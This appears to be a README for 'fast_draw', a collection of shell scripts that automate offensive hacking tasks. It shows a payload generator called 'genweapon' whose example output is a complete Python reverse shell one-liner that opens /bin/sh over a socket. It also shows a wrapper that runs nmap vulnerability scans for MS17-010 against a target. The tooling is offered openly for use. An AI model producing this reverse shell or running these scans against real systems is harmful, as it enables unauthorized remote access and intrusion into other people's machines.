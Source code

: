 # fast_draw

Shellscripts functions to automate stuff in hacking


## How use: 
### Generating payloads: 
#### Listing
```
$ genweapon help
[!] Help menu:
bash list -> List available payloads
bash generate PAYLOAD_PATH LHOST LPORT OUTPUT
	 Example: bash generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/shell.p
```

#### Creating 
Syntax: 

```
$ genweapon generate payloads/path_to_/payloadfile LHOST LPORT OUTPUT_FILE 
```

Example: 
```
$ genweapon generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/pyshell.py 
[-] Generating the payload
[-] Payload saved at /tmp/pyshell.py
operador@remember:~/scripts/shellscript/fast_draw$ cat /tmp/pyshell.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Automating nmap nse scans: 
Syntax: 

```
nse smb target ports 
```

Example: 

```
$ nse ms17-010 192.168.10.10 139,445
sudo nmap -p 139,445 --script=smb-vuln-ms17-010.nse -oN nmap_nse_smb-vuln-ms17-010.nse 192.168.10.10

```
